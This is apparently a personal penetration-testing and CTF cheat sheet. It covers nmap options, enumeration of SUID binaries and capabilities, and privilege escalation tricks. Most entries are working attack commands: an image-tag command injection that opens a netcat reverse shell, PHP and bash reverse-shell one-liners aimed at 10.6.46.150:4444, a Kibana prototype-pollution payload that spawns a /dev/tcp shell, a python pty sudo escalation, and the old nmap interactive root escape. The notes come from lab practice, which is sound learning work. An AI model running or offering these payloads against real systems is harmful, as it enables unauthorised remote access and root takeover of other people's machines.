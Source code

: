 *
-sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.

*
-A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute

*
nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .

*
To check if there is a nse script for X service:

`grep "X" /usr/share/nmap/scripts/script.db`

*
Getting rev shell when there is a chance to write a comment

`<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>`

 
*
SPAWNING INTTERACTING SHELL WITH PYTHON

`python3 -c 'import pty;pty.spawn("/bin/bash")'`   

*
Listing all binaries with suid permission

`find / -perm -u=s -type f 2>/dev/null`

*
link to access a modified WP theme - `404.php` (to get rev shell)

`http://10.10.142.159/wp-content/themes/twentyfifteen/404.php`

*
if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`

*
PHP REV SHELL ONE LINER

`php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

*
BASH REV SHELL ONELINER

`bash -i &>/dev/tcp/10.6.46.150/4444 <&1`

*
There are many different converters to john format

`bin2john / zip2john / gpg2john`

*
7z is a file to extract

*
binwalk -->> tool to check of there is a zip file inside .png image

`binwalk -e file`

*
NMAP SHELL

Old version of nmap can be used to escalate to root

`nmap --version` to check version

`nmap --interactive` to enter interacttive mode

and then `!sh` to get root

*
BRAINFUCK decoder

`https://www.splitbrain.org/_static/ook/`

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.

*
XOR DECODER

`http://xor.pw/#`

*
SPEECH TO TEXT CONVERTER

`https://speech-to-text-demo.ng.bluemix.net/`


*
PHP 5 is vulnerable to "null byte injection" 

TL;DR adding '\00' in the end of command.

https://www.cvedetails.com/cve/CVE-2006-7243/

*
Becoming root with python script and with no read/write rights:

`mv script.py script.py.bak` ---> renaming original script

`echo "import pty" > script.py` ---> adding pty library = pseudo terminal utilities

`echo "pty.spawn('/bin/bash')" >> script.py` ---> adding a spawn function

and executing a script with path given in `sudo -l` e.g `sudo -u root /usr/bin/python /home/script.py`


*
`wget -r` downloads all files of a directory


*
Kibana runs usually on port `5601`

It is always good to check it's version (Management section) and if it is vulnerable to `protype pollution`.

TL;DR We run netcat and inject a payload in Timelion, run it and open Canvas to get shell in netcat's terminal.

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.6.46.150/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

*
FINDING CAPABILITIES

`getcap -r / 2>/dev/null` 

`2>/dev/null` -
--> discards all STDERR


*
Nessus is an automated scanner which runs on port `8834`. It mixes functions of nmap, nikto or zap together and provides many profiles calles `Policies`
